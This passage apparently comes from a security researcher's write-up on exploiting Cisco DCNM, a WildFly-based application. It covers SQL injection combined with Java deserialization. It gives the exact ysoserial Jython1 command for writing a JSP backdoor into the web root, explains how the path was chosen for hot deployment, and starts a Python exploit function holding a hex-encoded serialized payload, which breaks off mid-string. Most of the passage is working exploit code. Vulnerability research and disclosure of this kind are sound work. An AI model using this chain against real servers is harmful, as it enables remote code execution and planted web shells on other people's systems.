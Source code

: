<p markdown="1" class="cn">However, I didn't need to because the gadget chain uses python bytecode to [write a file](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Jython1.java#L67) with our controlled content into an arbitrary location. I could have engineered some python bytecode to directly execute a stub, but this was good enough. Therefore, I just created a backdoor file called `si.jsp` and specified the remote path (web root) to write the file to!</p>

```bash
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar Jython1 "si.jsp;../../standalone/tmp/vfs/temp/xxxxxxxxxxxxxxxxxxxx/yyyyyyyyyyyyyyyyyyyyyyyy/si.jsp" > poc.bin
```

<p markdown="1" class="cn">I used the path `/xxxxxxxxxxxxxxxxxxxx/yyyyyyyyyyyyyyyyyyyyyyyy/` here because the application server Cisco DCNM is using is [Wildfly](https://wildfly.org/) (known previously as Jboss) and it has hot deployment enabled meaning everytime the application server was restarted, the web root changes location. I could have written a war file into the hot deployment directory and have the war deployed on the fly (the hot deployment directory is a fixed path) but I used the web root because I could leak the virtual file path using a different vulnerability and the post exploitation cleanup was easier.</p>

<p markdown="1" class="cn">For reference, here is the `we_can_trigger_sqli_for_deserialization` and `we_can_trigger_deserialization` methods I used to exploit this code path for remote code execution.</p>

```python
def we_can_trigger_sqli_for_deserialization(target, filename):
    ser = """aced0005737200176a6176612e7574696c2e5072696f7269747951756575
    6594da30b4fb3f82b103000249000473697a654c000a636f6d7061726174
    6f727400164c6a6176612f7574696c2f436f6d70617261746f723b787000
    000002737d0000000100146a6176612e7574696c2e436f6d70617261746f
    72787200176a6176612e6c616e672e7265666c6563742e50726f7879e127
    da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f726566
    6c6563742f496e766f636174696f6e48616e646c65723b78707372001a6f
    72672e707974686f6e2e636f72652e507946756e6374696f6e3fe65f596b
    67972b0200084c000b5f5f636c6f737572655f5f74001a4c6f72672f7079
    74686f6e2f636f72652f50794f626a6563743b4c00085f5f636f64655f5f
    7400184c6f72672f707974686f6e2f636f72652f5079436f64653b5b000c
    5f5f64656661756c74735f5f74001b5b4c6f72672f707974686f6e2f636f
    72652f50794f626a6563743b4c00085f5f646963745f5f71007e00084c00
    075f5f646f635f5f71007e00084c000b5f5f676c6f62616c735f5f71007e
    00084c000a5f5f6d6f64756c655f5f71007e00084c00085f5f6e616d655f
    5f7400124c6a6176612f6c616e672f537472696e673b787200186f72672e
    707974686f6e2e636f72652e50794f626a656374daaa6a7f5c5d0b7b0200
    024c000a617474726962757465737400124c6a6176612f6c616e672f4f62
    6a6563743b4c00076f626a747970657400184c6f72672f707974686f6e2f
    636f72652f5079547970653b787070737200236f72672e707974686f6e2e
    636f72652e50795479706524547970655265736f6c7665727b8153c59e62
    6af90200034c00066d6f64756c6571007e000b4c00046e616d6571007e00
    0b4c0010756e6465726c79696e675f636c6173737400114c6a6176612f6c
    616e672f436c6173733b787074000b5f5f6275696c74696e5f5f74000866
    756e6374696f6e7671007e0007707372001a6f72672e707974686f6e2e63
    6f72652e507942797465636f6465e63e58b3fab66c3802000849000c636f
    5f737461636b73697a65490005636f756e745a000564656275674900086d
    6178436f756e745b0007636f5f636f64657400025b425b0009636f5f636f
    6e73747371007e000a5b0009636f5f6c6e6f74616271007e00175b000863
    6f5f6e616d65737400135b4c6a6176612f6c616e672f537472696e673b78
    72001a6f72672e707974686f6e2e636f72652e507942617365436f64655e
    76d44441c3947402000c49000b636f5f617267636f756e7449000e636f5f
    66697273746c696e656e6f49000a636f5f6e6c6f63616c7349000c6a795f
    6e7075726563656c6c4900056e617267735a0007766172617267735a0009
    7661726b77617267735b000b636f5f63656c6c7661727371007e00184c00
    0b636f5f66696c656e616d6571007e000b4c0008636f5f666c6167737400
    1f4c6f72672f707974686f6e2f636f72652f436f6d70696c6572466c6167
    733b5b000b636f5f667265657661727371007e00185b000b636f5f766172
    6e616d657371007e0018787200166f72672e707974686f6e2e636f72652e
    5079436f6465745466123782c53b0200014c0007636f5f6e616d6571007e
    000b7871007e000c707371007e001071007e001374000862797465636f64
```